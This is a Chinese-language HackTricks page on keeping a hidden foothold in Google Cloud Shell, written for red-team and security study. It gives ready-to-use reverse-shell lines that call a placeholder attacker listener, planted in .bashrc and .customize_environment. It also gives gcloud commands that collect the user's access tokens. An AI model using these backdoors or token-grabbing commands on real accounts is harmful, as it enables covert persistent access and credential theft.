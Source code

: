 # GCP - 云Shell持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享您的黑客技巧。
*
*
*
* github仓库。

</details>

## 云Shell

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久后门

[**Google Cloud Shell**](https://cloud.google.com/shell/)为您提供了直接从浏览器访问云资源的命令行访问权限，而无需任何相关费用。

您可以从**Web控制台**或运行**`gcloud cloud-shell ssh`**来访问Google的Cloud Shell。

对于攻击者来说，这个控制台具有一些有趣的功能：

1. **任何具有Google Cloud访问权限的用户**都可以访问一个完全经过身份验证的Cloud Shell实例（即使是组织的所有者也可以）。
2. 该实例将在至少**120天内保留其主目录**，如果没有任何活动发生。
3. **组织无法监视**该实例的活动。

这基本上意味着攻击者可以在用户的主目录中放置一个后门，只要用户每120天至少连接到GC Shell一次，后门就会存活下来，攻击者每次运行时都会获得一个shell，只需执行：
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主目录中还有一个名为**`.customize_environment`**的文件，如果存在，将在用户每次访问**云shell**时执行（就像在上一种技术中一样）。只需插入前面的后门或类似以下内容的后门，即可在用户频繁使用云shell时保持持久性：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要提示：**第一次执行需要身份验证的操作时**，用户的浏览器会弹出授权窗口。必须在命令运行之前接受此窗口。如果出现意外弹窗，可能引起怀疑并潜在地危及正在使用的持久性方法。
{% endhint %}

这是在浏览器用户会话中查看作为攻击者执行`gcloud projects list`时的弹出窗口：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已经主动使用了云shell，则不会出现弹窗，您可以**收集用户的令牌**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH连接是如何建立的

基本上，使用了以下3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST\]（将让您添加您在本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST\]（将让您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET\]（将告诉您Google Cloud Shell的IP）

但您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)找到更多信息

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
